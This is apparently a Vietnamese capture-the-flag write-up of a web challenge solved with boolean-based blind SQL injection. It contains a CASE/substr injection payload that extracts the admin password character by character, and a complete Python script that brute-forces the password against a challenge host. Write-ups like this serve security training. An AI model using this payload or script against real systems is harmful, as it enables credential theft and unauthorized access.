 # Task
![](https://hackmd.io/_uploads/Ska3BLffp.png)

## Recon
Ngay khi vừa mở challenge lên thì ta có một giao diện cho phép người dùng nhập vào đó là ```uid``` và trang web sẽ tìm xem người dùng với uid đó có tồn tại không 
![](https://hackmd.io/_uploads/HJNUUIMGa.png)
Nhưng nếu như ta nhập vào là admin thì sẽ ra kết quả khác
![](https://hackmd.io/_uploads/BJMcUUfzp.png)

## Exploit
Nhiệm vụ của chúng ta là tìm được password của admin và đăng nhập thành công vậy làm thế nào để có thể lấy được password của admin ở cột ```upw``` đây ta sẽ sử dụng payload như sau

```sql=
admin' AND (SELECT CASE WHEN substr(upw, 1, 1) = 'c' then (select 1 from users where uid ='admin') else (select 1 from users where uid = '1') END FROM users WHERE uid='admin') --/*
```
Giải thích đầu tiên là nhập vào đó là chữ admin để hoàn thành câu lệnh sql và thêm vào đó điều kiện là cắt chuỗi ở cột ```upw``` nếu như chữ cái đầu là chữ 'c' thì thực hiện câu lệnh ```select 1 from users where uid = 'admin'``` nếu không thì thực hiện câu lệnh ```select 1 from users where uid = '1'``` tại sao lại cần phải như thế là do ta có thể sử dụng dòng thông báo nếu như có tồn tại thì thông báo nếu không thì in ra thông báo không tìm thấy đây sẽ là điệu kiện để ta có thể biết rằng câu lệnh đã thành công hay chưa

Để đẩy nhanh tiến trình bruteforce mình có viết một đoạn script bằng python để hỗ trợ
```python=
import requests
import string
alphabet = "abcdefghjhijklmnopqrstuvwxyz0123456789_"
url = "http://18.141.217.137:32056"
payload = ""
headers = {"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36"}
for i in range (1, 100):
    for char in alphabet:
        data = {
            "uid" : f"admin' AND (SELECT CASE WHEN substr(upw, 1, {i}) = '{payload + char}' then (select 1 from users where uid ='admin') else (select 1 from users where uid = '1') END FROM users WHERE uid='admin') --/*"
        }
        response = requests.get(url=url, headers=headers, params=data)
        if ("exists" in response.text):
            payload += char
            print("password is: " + payload)
            break


```
![image alt](https://scontent.fhan5-11.fna.fbcdn.net/v/t1.15752-9/394545513_3018486608285249_1568288228069427033_n.png?_nc_cat=100&ccb=1-7&_nc_sid=8cd0a2&_nc_ohc=vco85FWhs-4AX87iNsh&_nc_ht=scontent.fhan5-11.fna&oh=03_AdS7UQUmjN5WyCDuJE8UCgWv8fObFEhjTfh0YiPRT0uOBg&oe=655C37E9)

Đăng nhập vào với username là ```admin``` và password vừa mới tìm được thôi

## Flag

![image alt](https://scontent.fhan5-6.fna.fbcdn.net/v/t1.15752-9/395007852_1316189552363083_6640319045436703742_n.png?_nc_cat=105&ccb=1-7&_nc_sid=8cd0a2&_nc_ohc=Mo1ZuJyQTlAAX847pIX&_nc_ht=scontent.fhan5-6.fna&oh=03_AdQYqhqCRCtTatWiZYmPJHT3Dy0QFIA57y2JQMjiPBXelw&oe=655C5B7B)
